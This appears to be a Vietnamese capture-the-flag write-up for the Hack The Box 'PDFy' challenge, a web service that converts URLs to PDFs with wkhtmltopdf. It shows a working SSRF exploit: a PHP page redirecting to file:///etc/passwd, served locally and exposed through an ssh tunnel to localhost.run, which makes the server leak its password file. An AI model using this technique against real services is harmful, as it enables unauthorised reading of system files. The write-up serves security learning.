

Chào mừng bạn đến với PDFy, thử thách thú vị nơi bạn biến các trang web yêu thích của mình thành tài liệu PDF di động! Đây là cơ hội để bạn nắm bắt, chia sẻ và bảo tồn những gì tốt nhất của Internet một cách chính xác và sáng tạo. Hãy tham gia cùng chúng tôi và thay đổi cách chúng tôi lưu giữ và trân trọng nội dung web! LƯU Ý: Rò rỉ /etc/passwd để lấy cờ!
## Thu Thập
Truy cập vào trang web

Thử chức năng của website với url là https://google.com


Ta thử gửi yêu cầu url không thể chuyển đổi html sang pdf được thì phản hồi trả về :
*Với yêu cầu :*
```bash
{"url":"http://0.0.0.0/application/static/pdfs/"}
```
*Phản hồi*
```bash
{
  "level": "error",
  "message": "There was an error: Error generating PDF: Command '['wkhtmltopdf', '--margin-top', '0', '--margin-right', '0', '--margin-bottom', '0', '--margin-left', '0', 'http://0.0.0.0/application/static/pdfs/', 'application/static/pdfs/26e9319f32c669c182cc6a0dbdf1.pdf']' returned non-zero exit status 1."
}
```
Wkhtmltopdf  công cụ dòng lệnh mã nguồn mở (LGPLv3) để hiển thị HTML thành PDF và các định dạng hình ảnh khác nhau bằng cách sử dụng công cụ kết xuất Qt WebKit. 
Chức năng của website là chuyển đổi trang html sang pdf
## Phân tích lỗ hổng
Wkhtmltopdf có khả năng là lỗ hổng SSRF . 
Server side request forgery cho phép kẻ tấn công thực hiện các yêu cầu http từ chính máy chủ , có khả năng truy cập vào các tài nguyên nội bộ mà nếu không thì không thể truy cập được từ bên ngoài .
## Khai thác
Để khai thác lỗ hổng SSRF chúng ta cần tạo một trang web đánh lừa máy chủ tải đang rò rỉ tệp /etc/passwd . Bằng cách nhúng 1 tập lênh PHP chuyển hướng đến tệp hệ thống cục bộ của máy chủ 
1.	Tạo tập lệnh php
Tập lệnh php chuyển hướng đến file:///etc/passwd trong máy chủ cục bộ 
```bash
<!DOCTYPE html>
<html>
<body>
        <h1> Toi la Khanh</h1>
<?php
header('location:file:///etc/passwd');
?>
</body>
</html>
```

2.	Lưu trữ tập lệnh PHP
Lưu trữ tập lệnh php trên máy chủ cục bộ bằng máy chủ php 
```bash
php -S 0.0.0.0:8000
```


3.	Máy chủ cục bộ ra bên ngoài Internet 
Để máy chủ php cục bộ truy cập được ra bên ngoài sử dụng  localhost.run tạo đường hầm để máy chủ cục bộ có thể kết nối với internet ra ngoài .
```bash
ssh -R 80:localhost:8000 nokey@localhost.run
```


* Lấy được url internet :https://0087ce8bca4873.lhr.life

Nhập Url : https://0087ce8bca4873.lhr.life/Exploit.php  vào trang web ta đọc được file /etc/passwd của máy chủ .
Ta tìm được flag 


**https://www.hackthebox.com/achievement/challenge/2106021/637**